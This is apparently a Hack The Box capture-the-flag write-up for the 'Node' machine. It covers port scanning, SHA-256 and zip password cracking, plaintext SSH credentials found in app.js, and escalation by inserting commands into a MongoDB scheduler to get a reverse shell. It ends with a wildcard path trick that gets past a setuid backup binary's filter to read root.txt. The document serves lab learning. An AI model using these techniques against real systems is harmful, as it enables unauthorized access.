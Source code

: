 Node
================

![screenshot1](screenshot1.png)

Solution
==============

User
---------
First step is a normal nmap scan, and we got the following results
```
# Nmap 7.60 scan initiated Sat Feb  3 18:55:44 2018 as: nmap -sV -oN nmapoutput 10.10.10.58
Nmap scan report for 10.10.10.58
Host is up (0.29s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
3000/tcp open  http    Node.js Express framework
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb  3 18:56:21 2018 -- 1 IP address (1 host up) scanned in 36.78 seconds
```
Navigating to the service on port 3000, we get a webpage and a login prompt at the upper right corner.

![screenshot2](screenshot2.png)

Tried some basic SQL injections but didn't work. However browsing at some tabs in inspectors revealed some
interesting files.

![screenshot3](screenshot3.png)

![screenshot4](screenshot4.png)

Now we get some usernames and hashes. First I used hash-identifier to identify the hash and then used hashcat with the 
handy rockyou wordlist to crack it.

![screenshot5](screenshot5.png)

I turned out to be a simple SHA-256 hash, which we were able to crack with hashcat under a minute.

```
root@kali:~/Documents/htb/node# cat cracked.txt
dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af:manchester
```
Nice! We got the password and logged in to the admin account.

Next we were presented with a backup to download, however the major problem is that the backup file keeps terminating around 
6 seconds. 

![screenshot6](screenshot6.png)

This got me stuck for a while, judging from the web response I could get some base64 encoded characters, which 
were decoded to a password-protected corrupted zip file.

First I recovered the zip file after googling about it
```
root@kali:~/Documents/htb/node/copy_from_response# zip -FF myplace.zip --out recovered.zip
Fix archive (-FF) - salvage what can
	zip warning: Missing end (EOCDR) signature - either this archive
                     is not readable or the end is damaged
Is this a single-disk archive?  (y/n): y
  Assuming single-disk archive
Scanning for entries...
 copying: var/www/myplace/  (0 bytes)
```
 
Next I used fcrackzip to crack the password for the zip file and unzipped it.
```
 root@kali:~/Documents/htb/node/copy_from_response# fcrackzip -D -p /usr/share/wordlists/rockyou.txt recovered.zip 
possible pw found: magicword ()
```
![screenshot7](screenshot7.png)

Okay, so I spent a bunch of time going through all the node modules and stuffs but didn't find anything interesting, 
I guess downloading just stopped before the interesting file was downloaded.

Note: I didn't figure out why this happens, but I managed to solve it by downloading multiple times, and when it reached 
64% I could see the interesting file - app.js

![screenshot9](screenshot9.png)

![screenshot8](screenshot8.png)

We can see the credentials as clear text `mark:5AYRft73VtFpc84k`

SSH with that credential and we're finally in!

![screenshot10](screenshot10.png)

However, as we can see, we are unable to cat the user file as it belongs to the user 'tom'
(getting user is taking so long...)

Like always, I do `sudo -l` and `ps aux` first to find any exploitable targets.

![screenshot11](screenshot11.png)

As our target is Tom now, I saw what services Tom was running, and as we can see, a scheduler is running!

Basically that scheduler is executing every cmds in the `tasks` collection in mongodb. Another great thing is that Tom logged 
in to mongodb with Mark's username, so we could insert tasks on our own and Tom would run it.

![screenshot12](screenshot12.png)

Great! We've got command execution! Now grab one of the reverse shell scripts from https://highon.coffee/blog/reverse-shell-cheat-sheet/

![screenshot13](screenshot13.png)

And finally! We have user `User: e1156acc3574e04b06908ecf76be91b1`

System
----------

I was stuck for a long time on enumeration, but in the end when I was examining the app.js file that we got earlier, 
I saw some interesting lines
```
app.get('/api/admin/backup', function (req, res) {
    if (req.session.user && req.session.user.is_admin) {
      var proc = spawn('/usr/local/bin/backup', ['-q', backup_key, __dirname ]);
      var backup = '';

      proc.on("exit", function(exitCode) {
        res.header("Content-Type", "text/plain");
        res.header("Content-Disposition", "attachment; filename=myplace.backup");
        res.send(backup);
      });

      proc.stdout.on("data", function(chunk) {
        backup += chunk;
      });

      proc.stdout.on("end", function() {
      });
    }
    else {
      res.send({
        authenticated: false
      });
    }
  });
```
Notice the `/usr/local/bin/backup` executable, we are able to run it with root privileges, which means we could get the 
root.txt by supplying this executable with the backup_key parameter.
```
tom@node:~$ ls -la /usr/local/bin
ls -la /usr/local/bin
total 28
drwxr-xr-x  2 root root   4096 Sep  3 11:31 .
drwxr-xr-x 10 root root   4096 Aug 29  2017 ..
-rwsr-xr--  1 root admin 16484 Sep  3 11:30 backup

```
So `./backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /root/root.txt`

Output was base64 encoded so after decoding and using `7z e <zip file>` to extract, I got...

![screenshot14](screenshot14.png)

Trolled....

After fiddling with the program, I guess if the input contains 'root', we will be trolled. But anything else is okay and 
we just be given the actual file.

Googling how to do this, I found a great website https://medium.com/secjuice/waf-evasion-techniques-718026d693d8

`./backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /r??t/`

And then we finally got the root.txt

`Root: 1722e99ca5f353b362556a62bd5e6be0`



 
